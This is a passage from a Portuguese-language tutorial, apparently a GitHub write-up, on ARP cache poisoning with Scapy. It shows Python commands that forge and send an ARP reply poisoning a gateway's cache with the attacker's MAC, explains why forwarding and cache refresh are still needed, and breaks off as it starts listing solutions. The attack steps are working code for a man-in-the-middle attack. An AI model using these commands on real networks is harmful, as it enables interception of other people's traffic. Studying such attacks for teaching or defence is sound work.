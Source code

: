 Observe que o que está sendo enviado para a vítima (```192.168.1.101``` no MAC ```b4:2e:99:f4:b7:df```) é que o IP ```192.168.1.1``` (default gateway) está (```is-at```) no MAC ```28:56:5a:49:ff:67``` (```hwsrc```) que na verdade é o MAC do atacante.
* 3º passo: “envenenar” o arp cache do default gateway na linha da vítima, preenchendo com o MAC address do atacante
* Solução: fake arp reply

```bash
>>> arppoison2 = ARP(op = 2, psrc = "192.168.1.101", pdst = "192.168.1.1", hwdst = "c4:e9:84:9a:14:16")
>>> arppoison1.show()
###[ ARP ]### 
  hwtype= 0x1
  ptype= IPv4
  hwlen= None
  plen= None
  op= is-at
  hwsrc= 28:56:5a:49:ff:67
  psrc= 192.168.1.101
  hwdst= c4:e9:84:9a:14:16
  pdst= 192.168.1.1

>>> send(arppoison1)
.
Sent 1 packets.
```

Observe agora que o que está sendo enviado para o gateway (```192.168.1.1``` no MAC ```c4:e9:84:9a:14:16```) é que o IP ```192.168.1.101``` (vítima) está (```is-at```) no MAC ```28:56:5a:49:ff:67``` (```hwsrc```) que na verdade é o MAC do atacante.

A partir desse momento, o gateway acha que a vítima está no MAC do atacante assim como a vítima acha que o gateway está no mesmo MAC malicioso.

---

### Problemas

Porém, só com isso, esse ataque ainda não é efetivo por 2 motivos:

* Os pacotes saem do gateway e chegam no atacante, mas não vão até a vítima, assim como saem da vítima e chegam no atacante, mas não vão pro gateway. É preciso fazer com que o atacante encaminhe os pacotes para o iP certo quando passam por ele.

* A arp cache possui um tempo de verificação de linhas obsoletas, fazendo novos arp requests para atualizá-la. Após o ataque ser feito uma vez, depois de um curto período de tempo, a cache voltaria ao normal.

---

### Soluções

1. Para encaminhar pacotes para os devidos IP's exitem 2 maneiras:

Pelo próprio kernel
